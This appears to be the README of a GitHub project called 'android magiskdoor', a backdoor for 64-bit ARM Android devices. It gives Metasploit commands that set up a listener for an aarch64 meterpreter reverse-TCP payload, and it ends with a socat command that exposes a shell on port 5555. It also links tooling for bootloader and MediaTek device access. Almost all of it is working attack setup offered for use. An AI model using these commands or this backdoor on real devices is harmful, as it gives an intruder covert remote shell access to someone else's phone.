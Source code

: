 # android magiskdoor
currently only working attacking 64 bit arm devices from amd64 computers, porting should not be difficult though

# metasploit listening
`./msfconsole -q`  
`msf > use exploit/multi/handler`  
`msf exploit(handler) > set payload linux/aarch64/meterpreter_reverse_tcp`  
`payload => linux/aarch64/meterpreter_reverse_tcp`  
`msf exploit(handler) > set lhost 192.168.1.123`  
`lhost => 192.168.1.123`  
`msf exploit(handler) > set lport 4444`  
`lport => 4444`  
`msf exploit(handler) > run`  

# references
https://github.com/ernw/static-toolbox
https://github.com/bkerler/mtkclient
https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo
socat -d -d TCP4-LISTEN:5555 EXEC:sh